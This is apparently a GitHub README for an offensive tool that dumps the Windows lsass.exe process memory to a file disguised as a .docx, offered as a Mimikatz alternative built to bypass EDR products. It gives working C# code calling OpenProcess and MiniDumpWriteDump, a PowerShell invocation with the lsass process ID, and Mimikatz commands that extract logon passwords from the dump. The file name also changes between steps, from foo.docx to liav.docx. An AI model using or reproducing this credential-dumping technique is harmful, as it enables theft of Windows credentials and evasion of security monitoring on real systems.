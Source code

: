 # Lsass-Dump-PS
The LsassDumper is a Mimikatz alternative tool used for credential dumping created to bypass EDR products.



# How to Use

* step 1: Edit the script: Chanage the path to the file and the file name (foo.docx).
```C#
 public static void RunMe(int procId)
        {
            string dumpFileName = "C:\\Users\\Username\\Desktop\\foo.docx";
            FileStream file = new FileStream(dumpFileName, FileMode.Create);
            IntPtr hProcess = OpenProcess((uint)0x001F0FFF, true, procId);
            bool res;
            MINIDUMP_EXCEPTION_INFORMATION info = new MINIDUMP_EXCEPTION_INFORMATION();
            res = MiniDumpWriteDump(hProcess, (uint)procId, file.SafeFileHandle.DangerousGetHandle(), 0002, ref info, IntPtr.Zero, IntPtr.Zero);
            if(res){
                Console.WriteLine("Created By Liav Gutman AKA PT-MasterMind :)");
            
            }else{
                Console.WriteLine("Something went wrong please try again");
            
            
            }
 
```
* step 2: Configre the `lsass.exe` process id.
```
 [GoodMod.Dump]::RunMe(16048)
```
* step 3: Load the dump file (foo.docx) to [Mimikatz](https://github.com/gentilkiwi/mimikatz) and done!
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::minidump liav.docx

mimikatz # sekurlsa::logonpasswords
 
```



